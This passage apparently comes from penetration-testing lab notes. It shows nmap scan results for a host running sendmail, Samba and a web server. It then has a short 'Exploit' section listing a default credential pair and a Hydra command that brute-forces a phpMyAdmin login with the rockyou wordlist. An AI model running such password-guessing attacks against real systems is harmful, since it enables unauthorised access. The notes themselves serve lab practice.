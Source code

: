 ```bash
25/tcp  open  smtp
| smtp-commands: localhost.localdomain Hello [192.168.49.108], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP, 
|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info 
80/tcp  open  http
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ph33r
139/tcp open  netbios-ssn
199/tcp open  smux
445/tcp open  microsoft-ds

Host script results:
|_clock-skew: mean: 5h59m58s, deviation: 2h49m42s, median: 3h59m58s
|_nbstat: NetBIOS name: 0XBABE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.14a-Debian)
|   NetBIOS computer name: 
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-07T13:15:02-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Nmap done: 1 IP address (1 host up) scanned in 44.71 seconds
```

# Exploit
## Password Guessing
### Default Credentials
```bash
# CMS Web App 9000
# admin:admin
```

### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"

# output
NSTR
```
